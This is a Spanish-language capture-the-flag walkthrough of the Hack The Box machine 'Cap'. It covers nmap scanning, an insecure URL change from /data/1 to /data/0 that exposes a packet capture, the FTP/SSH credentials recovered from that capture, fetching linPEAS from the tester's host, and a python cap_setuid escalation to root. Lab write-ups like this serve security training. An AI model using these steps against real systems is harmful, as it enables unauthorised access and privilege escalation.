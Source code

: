 # CAP

Hoy haremos la máquina Linux easy Cap de HTB, nos encontraremos con un servicio HTTP en la que deberemos capturar la flag .

## INTRODUCCIÓN

Como siempre lo principal que haremos es comprobar el sistema operativo y la conectividad.
```
ping -c 1 10.10.10.245
```
y el script que tengo en mi repositorio para darnos cuenta que es un sistema oeprativo Linux.

Posteriormente haremos el escaner de puertos con nmap
```
sudo nmap -sCV -T4 --min-rate 4000 10.10.10.245
```
Nos encontramos tres puertos abiertos el 21 - ftp 22- ssh 80 - http

Posteriormente a esto visitamos la web alojada

```
http://10.10.10.245
```
Nos encontramos con un "Dahboard" con diferentes apartados y yo creo que nos centraremos en los servicios y puertos que corren gracias al "network status"

Si nos vamos al apartado de "security snapshot" podemos descargar la trazabilidad de los paquetes y posteriormente leernlos con whireshark.

Si inspeccionamos la URL vemos un /data/1 si lo probamos a cambiar a /data/0 y nos descargamos esos paquetes, veremos algo bastante curioso.

Paquetes por FTP con el usuario y contraseña de ssh para conectarnos.

```
nathan / Buck3tH4TF0RM3!
```
Vamos a conectarnos via ssh

Con esto nos conectamos y tenemos facilita la primera flag de usuario.

Ya dentro podemos utilizar el script de linPEAS para aprovechar otros vectores de privilegios. 
```
curl nuestra ip por hhtp linpeas.sh
```
El reporte que nos da el script contiene datos interesantes la ruta /usr/bin/python3.8 debe tener cap_setuid que esto alude al proceso de ganar privilegios de SUID (root)

si hacemos un 
```
/usr/bin/python3.8
import os
os.setuid(0)
os.system("/bin/bash")
```
```
id
```
nos daremos cuenta que somos root
gg
